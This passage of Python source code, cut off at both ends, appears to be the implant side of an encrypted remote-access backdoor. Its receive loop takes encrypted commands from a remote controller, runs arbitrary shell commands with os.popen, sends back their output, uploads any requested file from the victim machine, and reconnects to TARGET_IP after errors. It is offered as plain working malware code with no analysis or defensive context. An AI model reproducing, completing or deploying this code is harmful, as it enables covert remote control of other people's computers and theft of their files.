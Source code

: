 ```
            if not bytes_read:
                break
            decr_file = dec_file_mes(bytes_read, k)
            f.write(decr_file)
            total_bytes += len(decr_file)
    
    client2.close()

def receive(client, k):
    while True:
        try:
            # Receive encrypted message
            message = client.recv(BUFFER_SIZE)
            msg = dec_mes(message, k).decode()
            
            # Handle file transfer command
            if msg.startswith("FILE"):
                # Create a thread to handle file transfer
                receive_file_thread = threading.Thread(target=receive_file)
                receive_file_thread.start()
                
                # Send acknowledgement
                okenc = enc_mes("OK", k)
                client.send(okenc)
                continue
            
            # Handle upload file command
            elif msg.startswith("UPLOAD"):
                path_to_file = msg.split(SEPARATOR)[1]
                
                # Read file and get size
                with open(path_to_file, "rb") as f:
                    bytes_read = f.read()
                
                # Send file size info
                filesize = len(bytes_read)
                bytes_enc = enc_mes(f"{path_to_file}{SEPARATOR}{filesize}", k)
                client.send(bytes_enc)
                
                # Wait for acknowledgement
                vsb = client.recv(BUFFER_SIZE)
                
                # Send encrypted file
                enc_answer = enc_mes(bytes_read, k)
                client.sendall(enc_answer)
                continue
            
            # Execute command and return result
            else:
                answer = os.popen(msg).read()
                enc_answer = enc_mes(answer, k)
                client.send(enc_answer)
        
        except Exception:
            # Handle connection errors
            client.close()
            
            # Reconnect
            time.sleep(3)
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client.connect((TARGET_IP, TARGET_PORT))
            
            # Regenerate key
```
